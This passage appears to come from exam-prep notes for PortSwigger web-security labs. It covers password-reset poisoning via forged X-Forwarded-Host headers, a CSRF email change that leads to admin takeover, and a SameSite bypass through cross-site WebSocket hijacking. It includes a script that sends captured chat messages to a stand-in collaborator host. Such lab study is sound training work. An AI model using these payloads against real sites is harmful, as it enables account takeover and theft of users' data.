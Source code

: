 ```html
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
X-Forwarded-Host: EXPLOIT.net
X-Host: EXPLOIT.net
X-Forwarded-Server: EXPLOIT.net
Referer: https://TARGET.net/refreshpassword
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

csrf=TOKEN&username=administrator
```

#### CSRF No Defences

> Target with no defences against email change function, can allow the privilege escalation to admin role. In the exam changing the email to the `attacker@EXPLOIT.NET` email address on the exploit server can allow the attacker to change the password of the admin user, resulting in privilege escalation.\
> In the exam there is only _**one**_ active user, and if the previous stage was completed using an attack that did not require the involving of the active user clicking on a link by performing poison cache or performing phishing attack by means of `Deliver to Victim` function, then CSRF change exploit can be used.

[PortSwigger Lab: CSRF vulnerability with no defences](https://portswigger.net/web-security/csrf/lab-no-defenses)

#### SameSite Strict bypass

> In the live chat function, we notice the `GET /chat HTTP/2` request do not use any unpredictable tokens, this can _**identify**_ possible [cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking) (CSWSH) vulnerability if possible to bypass [SameSite](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions) cookie restriction.

> Host on exploit server POC payload to _**identify**_ CSWSH vulnerability.

```
<script>
    var ws = new WebSocket('wss://TARGET.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://COLLABORATOR.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

> The `SameSite=Strict` is set for session cookies and this prevent the browser from including these cookies in XSS cross-site requests. We _**Identify**_ the header `Access-Control-Allow-Origin` in additional requests to script and images to a subdomain at `cms-`.\
> Browsing to this CDN subdomain at `cms-` and then _**identify**_ that random user name input is reflected, confirmed this to be a [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability.
